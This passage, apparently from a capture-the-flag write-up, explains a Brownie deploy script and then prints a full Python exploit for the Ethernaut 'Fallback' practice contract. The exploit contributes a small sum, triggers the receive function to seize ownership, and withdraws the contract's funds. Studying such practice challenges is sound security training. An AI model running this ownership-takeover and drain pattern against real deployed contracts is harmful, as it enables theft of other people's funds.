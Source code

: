 - First we're importing the Fallback contract from brownie i.e. the ABI (I guess so :)). Then the next import is our `get_account` function to get our testing accounts. This `deploy` function is deploying the contract locally & returnining the contract object & the address of the owner.

- Now the final & most important one.
- `attack.py`

```py
#!/usr/bin/python3
from brownie import interface
from web3 import Web3
from colorama import Fore
from scripts.deploy import deploy
from scripts.helpful_scripts import get_account

# ? Global variables
AMOUNT = 0.00002
CONVERTED_AMOUNT = Web3.toWei(AMOUNT, "ether")

# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def attack(contract_address=None, attacker=None):
    if contract_address is None:
        fallback_contract, owner = deploy()
        contract_address = fallback_contract.address
        # ? Geeting the accounst for local testing
        _, attacker = get_account()

    # print(contract_address)
    # print(attacker)
    # exit(1)

    fallback = interface.Fallback(contract_address)
    contrib_tx = fallback.contribute({"from": attacker, "value": CONVERTED_AMOUNT})
    contrib_tx.wait(1)

    print(f"{green}Contributed {AMOUNT} ETH to the contract{reset}")
    print(
        f"Contract Balance: {green}{Web3.fromWei(fallback_contract.balance(), 'ether')} ETH{reset}"
    )

    # ? Invoking the fallback fn. i.e. the recieve() methind in solidity which enables a contract to accept payments

    print(f"{red}Doing the Attack by invoking the fallback fn.{reset}")
    attack_tx = attacker.transfer(contract_address, CONVERTED_AMOUNT)
    attack_tx.wait(1)

    print(f"Previous Address of the owner : {green}{owner}{reset}")
    print(f"Current Address of the owner : {green}{fallback_contract.owner()}{reset}")
    print(f"Address of the attacker : {green}{attacker}{reset}")
    print(f"{red}Hehe Wer're now the owner{reset}")

    # ? Draining the funds
    print(f"{magenta}Now Draining the funds!!!{reset}")

    drain_tx = fallback_contract.withdraw({"from": attacker})
    drain_tx.wait(1)

```